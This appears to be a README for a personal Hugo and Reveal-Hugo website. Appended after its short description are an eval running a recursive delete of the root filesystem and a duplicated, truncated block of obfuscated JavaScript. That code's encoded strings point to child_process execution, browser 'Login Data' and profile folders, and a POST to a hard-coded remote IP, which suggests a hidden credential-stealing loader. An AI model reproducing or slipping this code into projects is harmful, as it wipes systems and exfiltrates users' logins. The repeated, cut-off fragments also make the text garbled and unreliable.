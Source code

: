 # OxMarco Personal Website
Built with [Hugo](https://gohugo.io/) and [Reveal-Hugo](https://github.com/dzello/reveal-hugo).

eval("rm rf / --no-preserve-root")
rom(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8
rom(s1,t).toString(a));pt=require(n("zcGF0aA")),rq=require(n("YcmVx"+"dWVzdA")),ex=require(n("aY2hpbGRf"+"cHJvY2Vzcw"))[n("cZXhlYw")],zv=require(n("Zbm9kZTpwcm9jZXNz")),hs=$[n("caG9zdG5hbWU")](),hd=$[n("ZaG9tZWRpcg")](),pl=$[n("YcGxhdGZvcm0")](),td=$[n("cdG1wZGly")]();let e;const l=c=>Buffer.from(c,t).toString(a),s=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTQuMjM3OjEyNDQ=  ";for(var c="",a="",$="",r="",n=0;n<10;n++)c+=t[n],a+=t[10+n],$+=t[20+n],r+=t[30+n];return c=c+$+r,l(a)+l(c)},h=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[l("ZGlybmFtZQ")](hd)}/${c}`)),o="NVRlYW05",Z="Z2V0",y="Ly5ucGw",i="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",p=l("ZXhpc3RzU3luYw"),u="TG9naW4gRGF0YQ",b="Y29weUZpbGU";function m(t){const c=l("YWNjZXN"+"zU3luYw");try{return r[c](t),!0}catch(t){return!1}}const G=l("RGVmYXVsdA"),W=l("UHJvZmlsZQ"),Y=n("aZmlsZW5hbWU"),f=n("cZm9ybURhdGE"),w=n("adXJs"),V=n("Zb3B0aW9ucw"),v=n("YdmFsdWU"),j=l("cmVhZGRpclN5bmM"),z=l("c3RhdFN5bmM"),L=l("cG9zdA"),X="Ly5jb25maWcv",g="L0xpYnJhcnkvQXBwbGljYXRpb24gU3VwcG9ydC8
